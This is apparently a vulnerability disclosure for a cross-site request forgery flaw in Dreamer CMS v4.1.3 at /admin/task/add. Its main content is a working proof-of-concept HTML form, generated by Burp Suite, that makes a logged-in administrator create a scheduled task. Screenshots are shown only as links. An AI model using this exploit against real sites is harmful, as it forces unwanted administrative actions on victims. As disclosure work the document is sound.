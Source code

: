 
Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/task/add


![图片](https://github.com/CP1379767017/cms/assets/56637547/42e0ee4b-ce29-4448-b44d-025dff7eb856)

create poc

![图片](https://github.com/CP1379767017/cms/assets/56637547/0005c440-419d-4acb-b47f-94a55e87b2a8)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/task/add" method="POST">
      <input type="hidden" name="taskName" value="cs" />
      <input type="hidden" name="clazzName" value="cs" />
      <input type="hidden" name="cronExpression" value="&#42;&#47;5&#32;&#42;&#32;&#42;&#32;&#42;&#32;&#42;&#32;&#63;" />
      <input type="hidden" name="remark" value="cs" />
      <input type="hidden" name="status" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/CP1379767017/cms/assets/56637547/ace73963-9afe-4bc6-a77d-685668182d9a)



